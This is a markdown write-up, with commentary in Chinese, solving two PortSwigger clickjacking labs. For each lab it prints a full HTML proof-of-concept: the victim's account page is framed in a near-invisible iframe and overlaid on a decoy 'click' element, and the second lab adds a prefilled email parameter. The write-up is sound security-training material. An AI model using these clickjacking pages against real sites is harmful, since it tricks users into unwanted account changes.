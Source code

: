 ```yaml
---
title: PortSwigger Clickjacking
description: PortSwigger Clickjacking
---
```


## Lab: Basic clickjacking with CSRF token protection

| Dimension | Description                                                                                    |
| --------- | ---------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/clickjacking#how-to-construct-a-basic-clickjacking-attack |
| Lab       | https://portswigger.net/web-security/clickjacking/lab-basic-csrf-protected                     |

基礎題，就是單純考驗 CSS 切版能力

```html
<html>
  <head></head>
  <body>
    <style>
      html,
      body {
        margin: 0;
        padding: 0;
      }
      iframe {
        position: absolute;
        width: 500px;
        height: 600px;
        z-index: 1;
        opacity: 0.0001;
      }
      div {
        position: absolute;
        top: 485px;
        left: 50px;
        z-index: 0;
      }
    </style>
    <iframe
      src="https://0a8f009a040328ad8290936800c200c7.web-security-academy.net/my-account"
    ></iframe>
    <div>click</div>
  </body>
</html>
```

## Lab: Clickjacking with form input data prefilled from a URL parameter

| Dimension | Description                                                                              |
| --------- | ---------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/clickjacking#clickjacking-with-prefilled-form-input |
| Lab       | https://portswigger.net/web-security/clickjacking/lab-prefilled-form-input               |

基礎題，跟上一題比起來，就是多了一個 `?email=wiener4@normal-user.net` 的 querystring

```html
<html>
  <head></head>
  <body>
    <style>
      html,
      body {
        margin: 0;
        padding: 0;
      }
      iframe {
        position: absolute;
        width: 500px;
        height: 500px;
        z-index: 1;
      }
      div {
        position: absolute;
        top: 450px;
        left: 50px;
        z-index: 0;
      }
    </style>
    <iframe
      src="https://0a280028033be4478041941b0035007f.web-security-academy.net/my-account?email=wiener4@normal-user.net"
    ></iframe>
    <div>Click me</div>
  </body>
</html>
```

## 參考資料

- https://portswigger.net/web-security/clickjacking
